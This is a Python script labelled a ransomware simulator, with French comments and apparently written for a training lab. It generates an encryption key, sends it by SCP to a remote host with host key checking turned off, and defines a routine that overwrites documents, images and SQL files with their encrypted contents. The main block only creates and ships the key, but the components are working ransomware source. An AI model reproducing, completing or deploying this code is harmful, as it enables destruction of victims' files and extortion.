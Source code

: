 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION SSH PUR (SANS SSHPASS)
import os
import sys
import subprocess
from pathlib import Path
from cryptography.fernet import Fernet

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
SSH_KEY = "/home/doranco/.ssh/id_ed25519"  # Chemin vers votre clé SSH privée

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("🔑 Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"✅ Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key(self):
        """Transfère la clé via SCP avec authentification par clé"""
        if not self.key:
            print("❌ Aucune clé générée!")
            return False

        try:
            # Crée un fichier temporaire
            key_file = "decryption_key.key"
            with open(key_file, 'wb') as f:
                f.write(self.key)
            
            # 1. Crée le répertoire distant
            subprocess.run([
                'ssh',
                '-i', SSH_KEY,
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # 2. Transfère la clé
            subprocess.run([
                'scp',
                '-i', SSH_KEY,
                '-o', 'StrictHostKeyChecking=no',
                key_file,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/'
            ], check=True)
            
            # Nettoyage
            os.remove(key_file)
            print(f"📤 Clé transférée vers {SSH_SERVER}:{REMOTE_DIR}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"❌ Échec du transfert SSH: {e}")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if Path(filepath).suffix.lower() not in self.target_exts:
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            return True
        except Exception as e:
            print(f"⚠️ Erreur sur {filepath}: {e}")
            return False

if __name__ == '__main__':
    # Vérification des prérequis
    try:
        subprocess.run(['ssh', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
        subprocess.run(['scp', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
    except:
        print("""❌ Erreur: OpenSSH doit être installé
        sudo apt update && sudo apt install -y openssh-client
        """)
        sys.exit(1)

    # Exécution
    sim = RansomwareSimulator()
    if sim.generate_key() and sim.transfer_key():
        print("✅ Opération réussie!")
    else:
        print("❌ Échec de l'opération")
        sys.exit(1)